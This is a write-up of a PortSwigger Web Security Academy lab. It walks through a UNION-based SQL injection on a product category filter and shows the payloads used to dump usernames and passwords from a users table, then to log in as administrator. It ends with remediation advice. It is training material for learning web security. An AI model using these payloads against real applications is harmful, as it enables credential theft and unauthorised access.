


# SQL Injection — UNION Attack: Retrieving Data from Other Tables

> PortSwigger Web Security Academy lab — training environment, not a real-world system.
> Lab: *SQL injection UNION attack, retrieving data from other tables* (Practitioner)

## Summary

The product category filter was vulnerable to SQL injection, with the query's results reflected directly in the page. Having already confirmed the query returns **2 columns**, both text-compatible, I used a UNION attack to pull `username` and `password` values out of an unrelated `users` table and logged in as `administrator`.

## Vulnerability

- **Type:** SQL Injection (SQLi) → UNION-based — CWE-89
- **Location:** `GET /filter`, `category` parameter
- **Severity:** High (full compromise of unrelated table data, including credentials)

## Expected query

The filter appears to build a query like:

```sql
SELECT name, price FROM products WHERE category = 'Toys & Games' AND released = 1
```

Columns are reflected in the page, so a UNION can append rows selected from any other table the database account can read — in this case `users(username, password)`.

## Steps to reproduce

1. Captured the `GET /filter?category=...` request in Burp **Repeater**.
2. Confirmed the query returns **2 columns**, both of which accept string data:
   ```
   Toys & Games' UNION SELECT 'a','b'--
   ```
3. Replaced the test strings with real column names from the `users` table (no quotes, since these are identifiers, not literals):
   ```
   Toys & Games' UNION SELECT username, password FROM users--
   ```
4. The response rendered every row of `users` as fake "products," including:
   | username | password |
   |---|---|
   | wiener | bfeo61tno0hy9qk5vamx |
   | carlos | ngtw9arve1m1vijetup7 |
   | administrator | ddiqhpxiv2057axgq83h |
5. Logged in at `/login` as `administrator` / `ddiqhpxiv2057axgq83h`. Lab solved.

## Why the payload works

The injected query becomes:

```sql
SELECT name, price FROM products WHERE category = 'Toys & Games' UNION SELECT username, password FROM users--' AND released = 1
```

- `'` — closes the category string early.
- `UNION SELECT username, password FROM users` — appends one row per user from a completely unrelated table; it works because the column count (2) and both columns' data types match the original query.
- `--` — comments out the rest of the original query (`AND released = 1`), so it doesn't interfere with the appended `SELECT`.

The first attempt used `UNION SELECT 'username', 'password' FROM users--`, which only returns the literal strings `username`/`password` once per matching row, since they're quoted string literals, not column references. Dropping the quotes was what let the database substitute the real column values.

## Impact

A UNION injection isn't limited to the table the query was written for. Once the column count and types are known, an attacker can read **any table the database user can access** — here, full plaintext-looking credentials for every account, including an administrator login, extracted through a public-facing product filter.

## Remediation

- **Parameterised queries / prepared statements** — the primary fix; user input is bound as data and can never alter the query structure.
- **Least-privilege database account** for the web app, so even a successful injection can't reach tables like `users` that the application doesn't need direct query access to.
- Don't reflect raw query results into the page without validating they belong to the expected shape/table.
- Hash and salt stored passwords (defence in depth — doesn't stop the leak, but limits what an attacker gains from it).

## Screenshots




